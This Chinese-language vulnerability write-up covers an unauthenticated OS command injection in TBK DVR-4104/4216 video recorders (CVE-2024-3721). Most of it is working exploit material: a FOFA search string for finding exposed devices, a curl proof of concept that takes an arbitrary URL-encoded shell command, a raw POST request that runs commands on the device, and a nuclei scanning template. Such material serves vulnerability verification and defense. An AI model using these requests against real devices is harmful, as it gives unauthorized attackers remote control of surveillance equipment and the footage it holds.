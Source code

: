 **漏洞名称**

TBK DVR-4104/DVR-4216 操作系统命令注入漏洞

**漏洞影响**

- TBK DVR-4104
- TBK DVR-4216

**漏洞描述**

TBK DVR硬盘录像机是一套进行图像计算存储处理的计算机系统，具有对图像语音邓进行长时间录像、录音、远程监控和控制功能。该系统device.rsp接口处存在RCE漏洞，会导致系统被未授权的攻击者远控。

**FOFA搜索语句**

"Location: /login.rsp"

**漏洞复现**

POC

```sh
curl "http://<dvr_host>:<port>/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=<URL_ENCODED_SHELL_COMMAND>" -H "Cookie: uid=1"
```

POC数据包如下

```yaml
POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=echo%3B%20echo%20asrgkjh0%20%3E%20%2Fvar%2Fexample.txt%3B%20ls%20-l%20%2Fvar%3B%20echo%20----------------%3B%20cat%20%2Fvar%2Fexample.txt%3B HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 0
Cookie: uid=1
Accept-Encoding: gzip
```

**nuclei poc**

```yaml
id: CVE-2024-3721

info:
  name: TBK DVR硬盘录像机 device.rsp 命令执行漏洞
  author: fgz
  severity: critical
  description: 'TBK DVR硬盘录像机是一套进行图像计算存储处理的计算机系统，具有对图像语音邓进行长时间录像、录音、远程监控和控制功能。该系统device.rsp接口处存在RCE漏洞，会导致系统被未授权的攻击者远控。'
  tags: 2024,rce,TBK DVR
  metadata:
    max-request: 1
    fofa-query: "Location: /login.rsp"
    verified: true

http:
  - raw:
      - |
        POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=echo%3B%20echo%20asrgkjh0%20%3E%20%2Fvar%2Fexample.txt%3B%20ls%20-l%20%2Fvar%3B%20echo%20----------------%3B%20cat%20%2Fvar%2Fexample.txt%3B HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Cookie: uid=1

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'asrgkjh0')"
```

